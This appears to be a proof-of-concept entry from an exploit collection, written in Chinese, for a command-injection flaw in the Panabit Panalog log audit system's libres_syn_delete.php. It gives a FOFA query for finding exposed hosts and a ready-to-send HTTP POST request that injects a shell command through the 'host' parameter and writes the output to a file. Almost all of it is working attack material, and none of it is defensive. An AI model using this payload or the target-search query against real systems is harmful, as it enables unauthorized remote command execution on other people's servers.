 ## Panalog大数据日志审计系统libres_syn_delete.php存在命令执行


## fofa
```
app="Panabit-Panalog"
```

## poc
```
POST /content-apply/libres_syn_delete.php HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 54
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

token=1&id=2&host=|id >2cWKiiWovWYAIcNUBPkZph4xPLs.txt
```
![image](../../images/44588f4b-2c3a-45c6-bc27-951795c2d64b.png)

![image](../../images/90d69ec6-1058-4563-b02f-0721a1c68e8f.png)
